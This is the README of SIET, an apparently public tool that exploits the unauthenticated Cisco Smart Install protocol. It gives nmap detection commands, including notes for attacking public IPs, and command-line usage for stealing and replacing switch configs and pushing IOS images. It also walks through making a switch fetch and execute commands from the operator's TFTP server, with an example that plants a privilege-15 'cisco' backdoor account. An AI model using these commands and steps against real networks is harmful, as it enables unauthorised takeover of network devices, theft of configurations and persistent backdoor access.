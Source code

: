 ## This is python2 version. Please upload python3 version of tool from here: https://github.com/frostbits-security/SIETpy3

# SIET - Smart Install Exploitation Tool

Cisco Smart Install is a plug-and-play configuration and image-management feature that provides zero-touch deployment for new switches. You can ship a switch to a location, place it in the network and power it on with no configuration required on the device.

You can easy identify it using nmap cisco-siet.nse script. Just download it and run it: 
```	
nmap -p 4786 -v 192.168.0.1	# By default, it will just test whether host is vulnerable or not
$ nmap -p 4786 -v 192.168.0.1 --script ./cisco-siet.nse
# You can pass argument to get config
# Note: you need to run it as root
# If you are attacking public ip, make sure to provide your public ip to the script (cisco-siet.addr=<PUBLIC_IP>)
$ sudo nmap -p 4786 -v 192.168.0.1 --script ./cisco-siet.nse \
> --script-args "cisco-siet.get"
```

This protocol has a few security issues and this simple tool helps you to use all of them.:

1. Change tftp-server address on client device by sending one malformed TCP packet.
2. Copy client's `startup-config` on tftp-server exchanged previously.
3. Substitute client's `startup-config` for the file which has been copied and edited. Device will reboot in defined time.
4. Upgrade ios image on the "client" device.
5. Execute random set of commands on the "client" device. IS a new feature working only at `3.6.0E` and `15.2(2)E` ios versions. 


All of them are caused by the lack of any authentication in smart install protocol. Any device can act as a director and send malformed tcp packet. It works on any "client" device where smart install is enabled. It does not matter if it used smart install in the network or not.

**Confim** from vendor: 

- https://tools.cisco.com/security/center/content/CiscoSecurityResponse/cisco-sr-20170214-smi
- https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20160323-smi

**Slides**: https://2016.zeronights.ru/wp-content/uploads/2016/12/CiscoSmartInstall.v3.pdf

# USAGE

You can use it for password recovery of for unlock cisco switch when no password provided.

Example to get config:

```
sudo python siet.py -g -i 192.168.0.1
```

Options:

- `-t`  test device for smart install
- `-g`  get device config
- `-c`  change device config
- `-C`  change multiple device configs
- `-u`  update device IOS
- `-e`  execute commands in device's console
- `-i` ip address of target device
- `-l` ip list of targets (file path)
- `--thread-count` number of threads to be spawned

## How to use `-e` option
1. You have to create directory `tftp` (near siet.py) and file inside it `tftp/execute.txt`
2. File should contains commands for cisco switch, each command in quotes, separate by space. Example: `"username cisco privilege 15 secret 0 cisco" "exit"`
3. Then you run `siet.py` with IP address of device.
4. `siet.py` starts tftp server (69 port UDP) on your IP.
5. `siet.py` send command to switch to force download that file and execute it.  
    **Note: device need to have route to your IP. If you run it again device in Internet, you must run it from external IP**
6. Device go to you TFTP server, download and execute commands from file (no reboot is necessary)

# UPDATES

New option `-C`. You can place configs into the `tftp/conf` directory following the 
naming convention of `ip.conf`, ie: `192.168.10.1.conf`. A target ip list `-l` must be used
in conjunction with this option, the name of the conf corresponds to it's target destination.

New option `-l`. You can use list of ip addresses for getting configuration file.

Fix bug with incorrect test of device.

If you are thinking about what to do with the copied configuration files, you can try our new tool: [Cisco Config Analysis Tool](https://github.com/cisco-config-analysis-tool/ccat)

If you have any questions, please write me at telegram: @sab0tag3d
